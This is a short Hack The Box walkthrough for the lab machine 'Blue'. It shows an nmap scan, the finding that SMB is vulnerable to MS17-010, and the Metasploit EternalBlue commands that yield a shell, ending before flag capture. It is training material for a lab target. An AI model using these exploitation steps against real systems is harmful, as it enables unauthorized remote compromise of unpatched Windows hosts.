





# Hack the box - Blue


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.40</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Jul 28</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.40
```


We quickly notice computer user haris-PC and SMB service running on the host with port 445. It could be vulnerable, so let's check for nmap scripts:

```
ls -la /usr/share/nmap/scripts/ | grep smb*
```



Let's run all of them on nmap:



We can see that machine is vulnerable to ms17-10 exploit.

## Getting access

We could use metasploit for running this exploit:

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.40
set SMBUser haris-PC
exploit
```



As we can see, we got shell. Lets check for current user and try to capture the flags:

